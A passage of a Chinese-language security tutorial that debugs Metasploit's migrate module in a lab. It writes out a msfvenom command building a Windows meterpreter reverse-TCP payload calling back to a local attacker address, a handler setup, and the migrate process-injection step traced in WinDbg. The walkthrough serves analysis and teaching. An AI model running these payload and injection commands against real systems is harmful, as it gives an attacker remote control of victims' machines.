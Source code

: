 本节一方面是演示如何实际的动态调试 msf 的 migrate 模块，另一方面也是 3.1.1 的一个补充，从汇编层次来看 3.1.1 节会更容易理解。

首先用 msfvenom 生成 payload

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.75.132 lport=4444 -f exe -o msf.exe

```

并使用 msfconsole 设置监听

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcppayload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 

```

之后在受害机使用 windbg 启动 msf.exe 并且

```
bu KERNEL32!CreateRemoteThread;g

```

获得被注入进程新线程执行的地址，以便调试被注入进程。

当建立 session 连接后，在 msfconsole 使用 migrate 命令

```
 migrate 5600 //5600是要迁移的进程的pid

```

然后 msf.exe 在 CreateRemoteThread 函数断下，CreateRemoteThread 函数原型如下

```
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);

```

所以我们要找第四个参数 lpStartAddress 的值，即 r9 寄存器的内容，

![](https://images.seebug.org/content/images/2022/03/23/1648020752000-msf_createremotethread.png-w331s)
